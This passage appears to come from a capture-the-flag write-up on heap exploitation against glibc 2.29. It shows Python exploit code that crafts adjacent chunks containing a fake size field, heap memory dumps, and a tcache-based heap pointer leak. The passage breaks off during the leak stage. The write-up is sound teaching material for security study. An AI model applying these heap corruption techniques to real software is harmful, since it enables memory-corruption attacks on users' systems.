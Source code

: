 We create 3 adjacent chunks: A, B and C.

```
add(0x128, 'A'*0x128)
add(0x118, 'B'*0x118)
add(0x118, (b"C"*0xF8)+p64(0x21)+p64(0)+p64(0)+p64(0))
```

```
0x5609072654d0:    0x0000000000000000  0x0000000000000131
0x5609072654e0:    0x4141414141414141  0x4141414141414141
...
0x5609072655f0:    0x4141414141414141  0x4141414141414141
0x560907265600:    0x4141414141414141  0x0000000000000121
0x560907265610:    0x4242424242424242  0x4242424242424242
...
0x560907265710:    0x4242424242424242  0x4242424242424242
0x560907265720:    0x4242424242424242  0x0000000000000121
0x560907265730:    0x4343434343434343  0x4343434343434343
...
0x560907265810:    0x4343434343434343  0x4343434343434343
0x560907265820:    0x4343434343434343  0x0000000000000021
0x560907265830:    0x0000000000000000  0x0000000000000000
0x560907265840:    0x0000000000000000  0x000000000001e7c1
```

Note: view heap with `heap` command.

The 0x118 sized chunks come from the wilderness, while the 0x128 sized chunk (A) comes from the tcache\[0x130\], which now has only 6 entries left.

Note that C is not just filled with ‘C’ like the other 2 chunks because I already prepared for a later stage (explanation follows).

## Leaking the heap

To bypass one of glibc 2.29 checks later on, we need to leak a heap pointer. To do so, we can use the Tcaches.

```python
free(0)
add(0x128)
show(0)
p.recvuntil (": ") 
leak_addr = u64(p.recvn(6).ljust (8 , b'\x00'))
leak_offset = 0x1D6-0x40 # change this 
fake_header = leak_addr + leak_offset
free(0)
```

We free the A chunk and add a new one. Because the tcache has still room (currently at 6 entries), it will go into the tcache and write the fd pointer to the just freed location.

```
0x55ceeca904d0:    0x0000000000000000  0x0000000000000131
0x55ceeca904e0:    0x000055ceeca9030a  0x0000000000000000
0x55ceeca904f0:    0x4141414141414141  0x4141414141414141
```

